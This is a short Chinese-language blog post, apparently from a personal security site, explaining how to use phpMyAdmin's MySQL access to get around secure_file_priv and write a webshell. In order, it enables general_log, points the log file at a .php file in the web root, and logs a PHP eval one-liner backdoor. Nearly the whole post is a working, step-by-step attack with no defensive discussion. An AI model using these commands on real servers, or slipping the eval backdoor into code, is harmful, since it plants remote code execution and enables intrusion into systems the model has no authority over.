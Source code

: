 # phpMyAdmin突破secure-file-priv写WebShell





1.查看`secure_file_priv`值
```bash
show global variables like '%secure_file_priv%';
# show global variables like '%secure%';

# 此开关默认为NULL：即不允许导入导出
# 没有具体值时：表示不对mysqld 的导入|导出做限制
# 值为/tmp/ ：表示限制mysqld 的导入|导出只能发生在/tmp/目录下
```

2.查询操作日志存放路径
```bash
show variables like 'general_log%';

# 操作日志默认也是关闭的
```

3.首先打开操作日志记录
```bash
set global general_log = 'ON';
```

4.设置操作记录日志路径(`前提是获取到了绝对路径`)
```bash
# set global general_log_file='路径地址';
# 选择网站的目录里面
set global general_log_file='D:\\phpstudy\\PHPTutorial\\WWW\\xx.php'
```

5.执行sql语句，mysql会将执行的语句内容记录到我们指定的文件中，就可以getshell了
```bash
select '<?php @eval($_POST[1]);?>';
```

6.访问webshell，进行后续操作














---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://shuai06.github.io/phpmyadmin%E7%AA%81%E7%A0%B4secure-file-priv%E5%86%99webshell/  

